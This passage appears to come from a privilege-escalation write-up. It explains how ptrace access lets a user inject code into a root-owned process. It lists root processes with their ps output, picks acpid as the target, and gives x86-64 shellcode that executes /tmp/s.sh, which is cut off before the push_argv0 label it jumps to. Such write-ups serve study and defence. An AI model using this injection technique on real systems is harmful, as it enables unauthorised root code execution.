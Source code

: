 `Ptrace` is a system call that lets a process control another, and it’s what debuggers are built on, this means I can do anything a debugger can do to any running process, including inspecting registers, injecting shellcode or a shared library to achieve code execution

Looking at non-critical process running as root with `ps aux | awk '$1 == "root"' | grep -Ev '[0-9] \[.*\]'` , we can pick any process as our target, mine was `acpid`

```bash
saket@ubuntu:~$ ps aux | awk '$1 == "root"' | grep -Ev '[0-9] \[.*\]'
root           1  0.1  0.3 170976 13048 ?        Ss   05:15   0:01 /sbin/init auto noprompt
root         336  0.0  0.3  37556 13424 ?        S<s  05:16   0:00 /lib/systemd/systemd-journald
root         368  0.0  0.1  23696  7112 ?        Ss   05:16   0:00 /lib/systemd/systemd-udevd
root         609  0.0  0.2 250536  9300 ?        Ssl  05:16   0:00 /usr/lib/accountsservice/accounts-daemon
root         610  0.0  0.0   2548   776 ?        Ss   05:16   0:00 /usr/sbin/acpid
root         614  0.0  0.0  18052  2772 ?        Ss   05:16   0:00 /usr/sbin/cron -f
root         621  0.0  0.5 273232 21260 ?        Ssl  05:16   0:00 /usr/sbin/NetworkManager --no-daemon
root         627  0.0  0.0  81836  3720 ?        Ssl  05:16   0:00 /usr/sbin/irqbalance --foreground
root         629  0.0  0.4  47960 20096 ?        Ss   05:16   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
root         635  0.0  0.2 239020 11544 ?        Ssl  05:16   0:00 /usr/lib/policykit-1/polkitd --no-debug
root         654  0.0  0.1 244232  6040 ?        Ssl  05:16   0:00 /usr/libexec/switcheroo-control
root         665  0.0  0.2  16900  8516 ?        Ss   05:16   0:00 /lib/systemd/systemd-logind
root         667  0.0  0.3 395544 14108 ?        Ssl  05:16   0:00 /usr/lib/udisks2/udisksd
root         669  0.0  0.1  13688  5084 ?        Ss   05:16   0:00 /sbin/wpa_supplicant -u -s -O /run/wpa_supplicant
root         729  0.0  0.3 180448 12596 ?        Ssl  05:16   0:00 /usr/sbin/cups-browsed
root         801  0.0  0.2 240016 10704 ?        Ssl  05:16   0:00 /usr/sbin/ModemManager --filter-policy=strict
root         812  0.0  0.5 126484 22872 ?        Ssl  05:16   0:00 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal
root         820  0.0  0.2 248116  8308 ?        Ssl  05:16   0:00 /usr/sbin/gdm3
root         829  0.0  0.2 175304  8964 ?        Sl   05:16   0:00 gdm-session-worker [pam/gdm-launch-environment]
root         843  0.0  0.4 199776 20012 ?        Ss   05:16   0:00 /usr/sbin/apache2 -k start
root         902  0.0  0.2  37076  8764 ?        Ss   05:16   0:00 /usr/sbin/cupsd -l
root        1047  0.0  0.2 261052  9744 ?        Ssl  05:16   0:00 /usr/lib/upower/upowerd
root        1602  0.1  2.3 457768 94432 ?        Ssl  05:21   0:00 /usr/libexec/fwupd/fwupd
root        1646  0.3  0.9 1996844 38236 ?       Ssl  05:21   0:02 /usr/lib/snapd/snapd
```

As for the shellcode I wrote the following position independent stager that executes a file located at `/tmp/s.sh`

```nasm
section .text
	global _start
_start:
	jmp .push_argv0

.pop_argv0:
	pop rdi         ; pop &argv[0] into rdi
	xor eax, eax
	push rax        ; **argv needs to be null terminated
	push rdi        ; push &argv[0] on the stack, creating a double pointer
	mov rsi, rsp    ; as sys_excve syscall requires valid **argv

.spawn:
	xor edx, edx    ; env = NULL
	push 59         ; sys_execve
	pop rax
	syscall

```